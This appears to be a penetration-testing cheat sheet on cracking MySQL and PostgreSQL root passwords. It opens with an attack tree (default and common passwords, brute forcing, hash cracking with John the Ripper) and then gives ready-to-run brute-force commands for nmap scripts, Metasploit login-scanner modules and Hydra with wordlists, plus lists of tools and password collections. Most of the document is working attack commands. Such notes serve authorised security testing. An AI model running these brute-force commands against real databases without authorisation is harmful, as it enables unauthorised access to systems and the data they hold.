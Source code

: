 # Cracking the database root password

## Attack tree

```text
1 Cracking the database root password
    1.1 Try logging in as root without password and with default passwords
    1.2 Try common passwords
    1.3 Use a brute forcing tool
        1.3.1 External - run a tool
        1.3.2 Internal (having an account on the server that hosts the database) - run a hash cracker like John the Ripper against the database’s password file. The location of the hash file is different depending on the database.
    1.4 If it is Open Source Software, check the source code on the repository host.
```

## Nmap

`nmap` uses default password and user lists, but do plug in other lists:

### MySQL

Reduce the pool of users for the brute-force attack by user enumeration.

```text
# nmap --script mysql-brute <target>
--script-args userdb=<path> - plug in list of logins
--script-args passdb=<path> - plug in list of passwords
```

### PostgreSQL

```text
# nmap -p 5432 --script pgsql-brute <target>
```

## Metasploit

### MySQL

```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set USER_FILE /root/login/logins
msf auxiliary(mysql_login) > set PASS_FILE /root/login/password
msf auxiliary(mysql_login) > set RHOSTS <target>
msf auxiliary(mysql_login) > exploit
```

### PostgreSQL

```text
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set BLANK_PASSWORDS True
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS True
msf auxiliary(postgres_login) > set threads 100
msf auxiliary(postgres_login) > set RHOSTS <target>
msf auxiliary(postgres_login) > run
```

## Hydra

### PostgreSQL

```text
# hydra -L /path/to/user.txt -P /path/to/pass.txt <target> postgres
# hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt <target> postgres
-L: path for username list
-P: path for the password list
```

## Tools

* [Metasploit framework](https://www.kali.org/tools/metasploit-framework/)
* [Hydra](https://www.kali.org/tools/hydra/)
* [Medusa](https://www.kali.org/tools/medusa/)
* [Patator](https://www.kali.org/tools/patator/)
* [Ncrack](https://www.kali.org/tools/ncrack/)

## Resources

* [Collected common password lists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* [SecLists](https://github.com/danielmiessler/SecLists)
* [Script pgsql-brute](https://nmap.org/nsedoc/scripts/pgsql-brute.html)
* [Script mysql-brute](https://nmap.org/nsedoc/scripts/mysql-brute.html)

